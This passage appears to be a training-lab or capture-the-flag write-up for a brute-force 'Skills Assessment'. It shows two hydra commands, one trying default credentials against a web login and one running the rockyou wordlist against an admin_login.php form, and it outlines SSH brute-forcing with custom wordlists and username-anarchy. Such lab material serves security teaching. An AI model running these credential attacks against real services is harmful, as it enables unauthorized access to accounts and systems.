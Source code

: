 # 🧊 Skills Assessment

## **Website**

_**When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.**_

<figure><img src="../../../.gitbook/assets/image (1351).png" alt=""><figcaption></figcaption></figure>

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.255.149 -s 43320 http-get /
```

<figure><img src="../../../.gitbook/assets/image (1353).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1352).png" alt=""><figcaption></figcaption></figure>

_**Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?**_

```
hydra -l user -P /usr/share/wordlists/rockyou.txt.gz 83.136.255.149 -s 43320 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"
```

<figure><img src="../../../.gitbook/assets/image (1354).png" alt=""><figcaption></figcaption></figure>

## Service Login

As you now have the name of an employee from the previous skills assessment question, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also, try using the 'username-anarchy' tool to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.



Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.
